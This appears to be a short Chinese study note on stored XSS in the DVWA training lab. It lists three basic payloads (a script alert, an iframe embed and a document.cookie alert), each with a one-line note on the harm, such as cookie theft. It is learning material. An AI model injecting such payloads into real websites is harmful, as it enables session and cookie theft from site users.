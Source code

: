 ```yaml
---
title: dvwa笔记
tags: [Web漏洞]
categories: [网络安全]
date: 2016-02-04 22:05:18
---
```



## 存储型XSS
### 1. 基本的xss

``` html
<script>alert("hello")</script>
```

危害: 攻击者可以轻松的以中间人身份捕获 cookie/session。 

![](http://ww2.sinaimg.cn/large/5e515a93gw1f0nfqzmo2mj20g209y75d.jpg)

<!-- more -->

### 2. iframe xss

``` html
<iframe src="http://www.baidu.com></iframe>
```

危害：攻击者可以在其中嵌入自己的恶意网页

![](http://ww2.sinaimg.cn/large/5e515a93gw1f0nfroh3dsj20e507rwew.jpg)



### 3. cookie xss

``` html
<script>alert(document.cookie);</script>
```

危害：获取cookie等重要信息
![Paste_Image.png](http://ww1.sinaimg.cn/large/5e515a93gw1f0nfsr4zvxj20dw06rjs0.jpg)